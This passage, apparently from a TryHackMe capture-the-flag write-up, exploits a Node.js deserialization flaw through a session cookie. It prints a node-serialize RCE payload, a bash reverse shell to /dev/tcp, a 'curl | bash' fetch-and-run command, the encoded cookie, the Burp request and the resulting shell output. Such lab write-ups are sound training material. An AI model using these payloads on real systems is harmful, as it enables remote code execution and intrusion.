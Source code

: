 - Well, this is JS deserialization bug so I looked for some exploits and found one.

  ```
  {"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',
  function(error, stdout, stderr) { console.log(stdout) });\n }()"}
  ```

- It will execute `ls`, but let's do reverse shell shall we? Create a standard bash one-liner, add it to original cookie value and encode it with base64 than URL encoding.

  ```
  nano shell.seh
  
  #!/bin/bash
  bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1
  
  {"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl [YOUR-THM-IP]:80/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}

  %65%79%4a%31%63%32%56%79%62%6d%46%74%5a%53%49%36%49%6c%38%6b%4a%45%35%45%58%30%5a%56%54%6b7%4e%76%62%6e%4[SNIP!]2%32%52%70%62%6d%63%69%4f%69%41%69%64%58%52%6d%4c%54%67%69%66%51%3d%3d
  ```

- Now put encoded payload as cookie value, start Python HTTP server and start a listener, after that just send the payload with Burp and watch the magic happening.

  ```
  GET / HTTP/1.1
  Host: 10.10.70.241:8080
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Referer: http://10.10.70.241:8080/login
  Connection: keep-alive
  Cookie: session=%65%79%4a%31%63%32%56%79%62%6d%46%74%5a%53%49%36%49%6c%38%6b%4a%45%35%45%58%30%[SNIP!]%6d%63%69%4f%69%41%69%64%58%52%6d%4c%54%67%69%66%51%3d%3d
  Upgrade-Insecure-Requests: 1
  Content-Length: 2
  
  python3 -m http.server 80  
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  10.10.70.241 - - [19/May/2025 15:05:09] "GET /shell.sh HTTP/1.1" 200 -
  
  nc -lvnp 4444       
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.70.241] 47954
  bash: cannot set terminal process group (573): Inappropriate ioctl for device
  bash: no job control in this shell
  www@vulnnet-node:~/VulnNet-Node$ whoami
  whoami
  www
  www@vulnnet-node:~/VulnNet-Node$ id
  id
  uid=1001(www) gid=1001(www) groups=1001(www)
  ```

---